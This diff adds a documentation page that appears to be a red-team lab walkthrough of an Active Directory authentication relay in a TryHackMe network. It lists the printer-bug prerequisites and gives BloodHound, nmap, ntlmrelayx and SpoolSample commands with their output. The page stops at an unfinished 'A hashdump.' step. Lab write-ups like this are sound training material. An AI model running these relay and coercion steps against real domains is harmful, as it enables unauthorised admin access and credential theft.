

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/exploit/relays.md, in a window 1280 px wide and 1400 px high, scrolled down 270 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/exploit/relays.md
+++ b/source/docs/exploit/relays.md
@@ -1 +1,142 @@
-# Exploiting Automated Relays
+# Exploiting automated relays
+
+We can force a computer account to initiate an authentication request. Computer accounts – like user accounts – have
+a username and password. Computer account usernames end in `$` – for example, `server01$`.
+
+## Machine accounts
+
+Use a custom Bloodhound query to find computer accounts that have admin rights over other computer accounts:
+
+    MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
+
+| ![THM Bloodhound](../../_static/images/exploit-ad-bloodhound2.png)
+|:--:|
+| This query will attempt to find instances where a computer has the "AdminTo" relationship over <br>another computer. |
+
+## The Printer Bug
+
+The printer bug feature allows a domain user to force a computer account to connect to an arbitrary IP address. In
+order for this to work, the following must be true:
+* Possess a valid set of AD credentials
+* Target host is running SMB
+* Target host is running Print Spooler service
+* SMB signing must not be enforced
+
+Condition 1 and 2 have been met already.
+
+### Verify the Print Spooler service is running
+
+```text
+PS C:\Users\t2_alan.riley> Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc
+
+Name                 ComputerName         Description          PortMonitor
+----                 ------------         -----------          -----------
+COM1:                thmserver2.za.try... Local Port           Local Monitor
+COM2:                thmserver2.za.try... Local Port           Local Monitor
+COM3:                thmserver2.za.try... Local Port           Local Monitor
+COM4:                thmserver2.za.try... Local Port           Local Monitor
+FILE:                thmserver2.za.try... Local Port           Local Monitor
+LPT1:                thmserver2.za.try... Local Port           Local Monitor
+LPT2:                thmserver2.za.try... Local Port           Local Monitor
+LPT3:                thmserver2.za.try... Local Port           Local Monitor
+PORTPROMPT:          thmserver2.za.try... Local Port           Local Monitor
+```
+
+### Verify SMB signing enforcement
+
+```text
+$ sudo nmap -Pn -p445 --script=smb2-security-mode thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
+[sudo] password for nina:
+Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-07 18:24 GMT
+Nmap scan report for thmserver1.za.tryhackme.loc (10.200.60.201)
+Host is up (0.080s latency).
+
+PORT    STATE SERVICE
+445/tcp open  microsoft-ds
+
+Host script results:
+| smb2-security-mode:
+|   311:
+|_    Message signing enabled but not required
+
+Nmap scan report for thmserver2.za.tryhackme.loc (10.200.60.202)
+Host is up (0.041s latency).
+
+PORT    STATE SERVICE
+445/tcp open  microsoft-ds
+
+Host script results:
+| smb2-security-mode:
+|   311:
+|_    Message signing enabled but not required
+
+Nmap done: 2 IP addresses (2 hosts up) scanned in 2.85 seconds
+
+$ dig thmserver1.za.tryhackme.loc
+
+; <<>> DiG 9.18.7-1-Debian <<>> thmserver1.za.tryhackme.loc
+;; global options: +cmd
+;; Got answer:
+;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 14249
+;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
+
+;; OPT PSEUDOSECTION:
+; EDNS: version: 0, flags:; udp: 4000
+;; QUESTION SECTION:
+;thmserver1.za.tryhackme.loc.	IN	A
+
+;; ANSWER SECTION:
+thmserver1.za.tryhackme.loc. 3600 IN	A	10.200.60.201
+
+;; Query time: 68 msec
+;; SERVER: 10.200.60.101#53(10.200.60.101) (UDP)
+;; WHEN: Mon Nov 07 18:26:01 GMT 2022
+;; MSG SIZE  rcvd: 72
+```
+
+## Exploit authentication relay
+
+* Use `NTLM` authentication against the target – `THMSERVER1`
+* `THMSERVER2` has administrative privileges over `THMSERVER1`
+* Use `SpoolSample.exe` to connect to `THMSERVER2` and tell it to authenticate back to us
+* Relay that authentication request to `THMSERVER1`
+* `THMSERVER1` will see it as though we are connecting as `THMSERVER2`, which will give us administrative privileges
+
+Set up the NTLM relay:
+
+```text
+$ python3 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"10.200.60.201" -debug
+Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
+
+[+] Impacket Library Installation Path: /usr/local/lib/python3.10/dist-packages/impacket-0.10.1.dev1+20220720.103933.3c6713e3-py3.10.egg/impacket
+...
+[*] Servers started, waiting for connections
+```
+
+Get IP address attack machine on the THM network:
+
+```text
+$ ifconfig
+...
+exploitingad: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
+        inet 10.50.57.175  netmask 255.255.255.0  destination 10.50.57.175
+        inet6 fe80::712c:cfa0:413f:458f  prefixlen 64  scopeid 0x20<link>
+        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
+        RX packets 53151  bytes 19626273 (18.7 MiB)
+        RX errors 0  dropped 0  overruns 0  frame 0
+        TX packets 61363  bytes 4371437 (4.1 MiB)
+        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
+...
+```
+
+On `THMWRK1`, exploit:
+
+```text
+PS C:\Users\t2_alan.riley> C:\Tools\SpoolSample.exe thmserver2.za.tryhackmloc "10.50.57.175"
+[+] Converted DLL to shellcode
+[+] Executing RDI
+[+] Calling exported function
+TargetServer: \\thmserver2.za.tryhackmloc, CaptureServer: \\10.50.57.175
+```
+
+A hashdump.
````
Also changed, not shown: source/docs/exploit/README.md (+6 -6 lines), source/docs/exploit/kerberos.md (+1 -1 lines), source/docs/exploit/permissions.md (+1 -1 lines).
